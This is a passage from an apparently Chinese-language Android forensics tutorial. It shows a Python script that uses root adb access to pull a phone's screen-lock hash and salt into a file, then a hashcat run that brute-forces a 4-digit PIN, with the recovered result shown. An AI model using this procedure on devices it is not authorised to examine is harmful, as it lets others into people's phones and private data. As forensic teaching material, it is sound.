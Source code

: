 ```

    # convert SALT to Hex
    returnedsalt =  binascii.hexlify(struct.pack('>q', int(salt) ))
    print "SALT: \033[0;32m" + returnedsalt + "\033[m"

    return returnedsalt

def write_crack(salt, sha1hash, backup_dir):

    crack = open(backup_dir + '/crack.hash', 'a+')

    # write HASH and SALT to cracking file
    hash_salt = sha1hash + ':' + salt
    crack.write(hash_salt)
    crack.close()

if __name__ == '__main__':

    # check if device is connected and adb is running as root
    if subprocess.Popen(['adb', 'get-state'], stdout=subprocess.PIPE).communicate(0)[0].split("\n")[0] == "unknown":
        print "no device connected - exiting..."
        sys.exit(2)

    # starting to create the output directory and the crack file used for hashcat
    backup_dir = sys.argv[1]

    try:
        os.stat(backup_dir)
    except:
        os.mkdir(backup_dir)

    sha1hash = get_sha1hash(backup_dir)
    salt = get_salt(backup_dir)
    write_crack(salt, sha1hash, backup_dir)
```

这个脚本会生成一个名为`crack.hash`的文件，可以用于向**hashcat**提供数据以进行屏幕锁的暴力破解。如果智能手机的用户使用了 4 位数的 PIN 码，执行 hashcat 的命令如下：

```
user@lab:~$ ./hashcat -a 3 -m 110 out/crack.hash -1 ?d ?1?1?1?1
Initializing hashcat v0.50 with 4 threads and 32mb segment-size...

Added hashes from file crack.hash: 1 (1 salts)
Activating quick-digest mode for single-hash with salt

c87226fed37977772be870d722c449f915844922:256c05b54b73308b:0420

All hashes have been recovered

Input.Mode: Mask (?1?1?1?1) [4]
Index.....: 0/1 (segment), 10000 (words), 0 (bytes)
Recovered.: 1/1 hashes, 1/1 salts
Speed/sec.: - plains, 7.71k words
Progress..: 7744/10000 (77.44%)
Running...: 00:00:00:01
Estimated.: --:--:--:--

Started: Sat Jul 20 17:14:52 2015
Stopped: Sat Jul 20 17:14:53 2015

```
